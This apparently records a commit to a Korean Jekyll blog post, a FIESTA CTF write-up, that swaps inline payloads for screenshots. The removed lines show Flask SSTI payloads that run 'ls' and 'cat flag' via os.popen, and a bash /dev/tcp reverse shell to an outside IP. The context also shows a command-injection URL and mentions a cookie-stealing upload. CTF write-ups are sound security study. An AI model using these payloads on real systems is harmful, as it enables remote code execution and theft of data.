

Before and after one commit to kangsecu/kangsecu.github.io, a Jekyll site: the page built from _posts/2020-09-25-FIESTA-CTF-Write-up.md, in a window 1280 px wide. Shown: the part 1996-3913 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-09-25-FIESTA-CTF-Write-up.md

```diff
--- a/_posts/2020-09-25-FIESTA-CTF-Write-up.md
+++ b/_posts/2020-09-25-FIESTA-CTF-Write-up.md
@@ -111,13 +111,13 @@ http://13.125.25.152/memos/kangsecu.php?cmd=/bin/sh;cd ../../../../../cat flag
 이런 코드를 .phtml로 작성하고 업로드하여 진행하면 쿠키탈취가 가능하다. 이게 1번 플래그였다.
 
 그 다음 1번에서 취득한 어드민 권한으로 접속하면 업로드 된 글들에 코멘트를 달 수 있는데, 여기서 uwsgi를 사용한 프론트는 아파치고, 백엔드는 플라스크라는게 생각나서 SSTI를 진행했다.
-{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
+![ssti1](/img/ssti1.png)
 
 를 이용하여 내부 디렉터리에 파일들을 출력하고 flag가 있길래 읽어왔다.
-{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
+![ssti2](/img/ssti2.png)
 
 이게 2번 정답이다. 3번은 여기서 SSTI를 이용하여 리버스쉘을 취득해서 nc에서 진행하였다.
-`{{config.__class__.__init__.__globals__['os'].popen('/bin/bash-c"/bin/bash-i>&/dev/tcp/49.247.132.71/12345 0>&1"').read()}}`
+![ssti3](/img/ssti3.png)
 
 이를 이용하여 우리 서버에 리버스쉘을 연결하고 nc를 열어서 app.py코드를 확인하고 db정보를 취득했다.
 
```
